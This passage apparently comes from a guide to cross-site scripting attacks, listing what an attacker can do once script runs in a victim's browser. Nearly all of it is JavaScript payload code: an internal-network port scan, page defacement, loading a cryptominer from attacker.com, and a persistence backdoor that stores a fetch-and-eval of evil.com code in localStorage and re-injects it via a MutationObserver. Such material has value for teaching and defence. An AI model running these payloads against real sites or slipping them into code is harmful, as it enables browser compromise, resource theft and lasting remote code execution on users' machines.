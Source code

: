 ```javascript
}

// Scan common ports on internal IP range
for (let i = 1; i < 10; i++) {
  checkPort('192.168.1.' + i, 8080);
  checkPort('192.168.1.' + i, 3389);
  checkPort('192.168.1.' + i, 22);
}
```

### 5. Virtual Defacement

Modify the page content to display false information:

```javascript
document.body.innerHTML = '<h1>This site has been hacked</h1>';
```

### 6. Cryptomining

Use the victim's CPU for cryptocurrency mining:

```javascript
var script = document.createElement('script');
script.src = 'https://attacker.com/miner.js';
document.body.appendChild(script);
```

### 7. Advanced Persistent Threats

Use XSS to establish persistence in the victim's browser:

```javascript
// Store payload in various storage mechanisms
localStorage.setItem('_sys_cache', 'fetch("https://evil.com/backdoor.js").then(r=>r.text()).then(t=>eval(t))');

// Execute on page load
function persist() {
  try {
    eval(localStorage.getItem('_sys_cache'));
  } catch(e) {}
}

// Set up mutations observer to re-infect DOM
var observer = new MutationObserver(function() {
  // Re-inject payload if it gets removed
  if (!document.querySelector('#_sys_frame')) {
    persist();
  }
});
observer.observe(document, {childList: true, subtree: true});
```
